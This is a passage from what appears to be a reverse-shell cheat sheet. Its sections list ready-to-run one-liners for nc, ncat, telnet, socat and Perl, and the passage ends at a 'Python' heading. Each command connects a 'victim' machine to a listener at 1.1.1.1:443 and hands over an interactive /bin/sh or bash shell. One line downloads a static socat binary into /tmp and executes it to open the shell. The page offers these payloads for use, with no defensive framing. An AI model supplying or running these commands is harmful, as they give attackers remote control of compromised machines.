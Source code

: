 `rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc 1.1.1.1 443 > f`

`rm -f x; mknod x p && nc 1.1.1.1 443 0<x | /bin/bash 1>x`

### Ncat:

`ncat 1.1.1.1 443 -e /bin/bash`

`ncat --udp 1.1.1.1 443 -e /bin/bash`

### Telnet:

`rm -f /tmp/p; mknod /tmp/p p && telnet 1.1.1.1 443 0/tmp/p 2>&1`

`telnet 1.1.1.1 443 | /bin/bash | telnet 1.1.1.1 444`

`rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet 1.1.1.1 443 > f`

`rm -f x; mknod x p && telnet 1.1.1.1 443 0<x | /bin/bash 1>x`

### Socat:

### Victim:

`/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.1.1.1:443`

`socat tcp-connect:1.1.1.1:443 exec:"bash -li",pty,stderr,setsid,sigint,sane`

### Listener:

`socat file:tty,raw,echo=0 TCP-L:443`

## Victim:

`wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:1.1.1.1:443`

## Perl:

### Victim:

`perl -e 'use Socket;$i="1.1.1.1";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

`perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"1.1.1.1:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

### Windows only, Victim:

`perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"1.1.1.1:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

# Python:
